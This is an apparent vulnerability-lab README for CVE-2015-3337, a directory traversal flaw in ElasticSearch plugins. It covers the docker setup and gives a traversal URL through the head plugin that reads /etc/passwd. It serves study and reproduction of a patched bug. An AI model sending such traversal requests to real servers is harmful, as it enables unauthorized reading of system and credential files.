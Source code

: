 # ElasticSearch Plug-in Directory Traversal (CVE-2015-3337)

[中文版本(Chinese version)](README.zh-cn.md)

ElasticSearch is a distributed, RESTful search and analytics engine.

In the ElasticSearch versions before 1.4.5 and 1.5.x before 1.5.2, a directory traversal vulnerability exists in ElasticSearch's plugin functionality that allows attackers to read arbitrary files on the system.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2015-3337>
- <https://github.com/elastic/elasticsearch/issues/10828>

## Vulnerability Description

After installing a plugin with "site" functionality, an attacker can use `../` in the plugin directory path to traverse up the directory tree, leading to arbitrary file read. ElasticSearch installations without any plugins are not affected.

## Environment Setup

Execute the following commands to build and start an ElasticSearch server 1.4.4:

```
docker compose build
docker compose up -d
```

The test environment comes with a pre-installed plugin: `elasticsearch-head`, which is a web front-end for ElasticSearch. More information about this plugin can be found at: <https://github.com/mobz/elasticsearch-head>

## Vulnerability Reproduction

To exploit this vulnerability, send a request to read arbitrary files using directory traversal in the plugin path. For example, to read `/etc/passwd`, send a request to:

```
http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd
```

Note: Do not access this URL directly in a browser.

![](1.png)

## Additional Information

The head plugin provides a web interface for ElasticSearch. You can access it at `http://your-ip:9200/_plugin/head/` to interact with your ElasticSearch cluster through a graphical interface.
